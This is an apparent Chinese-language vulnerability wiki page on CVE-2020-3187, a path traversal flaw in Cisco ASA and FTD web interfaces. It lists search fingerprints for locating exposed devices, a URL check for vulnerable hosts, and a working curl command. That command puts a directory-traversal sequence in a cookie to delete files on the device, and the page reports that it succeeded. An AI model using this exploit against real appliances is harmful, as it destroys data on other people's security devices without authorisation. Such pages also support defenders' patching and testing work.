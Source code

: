# Cisco ASA设备任意文件删除漏洞 CVE-2020-3187

## 漏洞描述

Cisco ASA Software和FTD Software中的Web服务接口存在路径遍历漏洞，该漏洞源于程序没有对HTTP URL进行正确的输入验证。远程攻击者可通过发送带有目录遍历序列的特制HTTP请求利用该漏洞读取并删除系统上的敏感信息。

## 漏洞影响

<a-checkbox checked>Cisco ASA设备</a-checkbox></br>



![img](../../../.vuepress/public/img/cisco-1.png)



<a-checkbox checked>Cisco FTD设备</a-checkbox></br>



![img](../../../.vuepress/public/img/cisco-2.png)

## 网络测绘

<a-checkbox checked>/+CSCOE+/</a-checkbox></br>

<a-checkbox checked>Cisco-ASA</a-checkbox></br>

## 漏洞复现

<a-alert type="success" message="访问 http://xxx.xxx.xxx.xxx/+CSCOE+/session_password.html 存在则可能出现此漏洞" description="" showIcon>
</a-alert>
<br/>

![img](../../../.vuepress/public/img/cisco-6.png)



例如我们删除一张图片  http://xxx.xxx.xxx.xxx/+CSCOU+/csco_logo.gif



![img](../../../.vuepress/public/img/cisco-7.png)



使用 curl 发送请求



```shell
curl -H "Cookie: token=../+CSCOU+/csco_logo.gif" https://xxx.xxx.xxx.xxx/+CSCOE+/session_password.html
```



![img](../../../.vuepress/public/img/cisco-8.png)



成功删除图标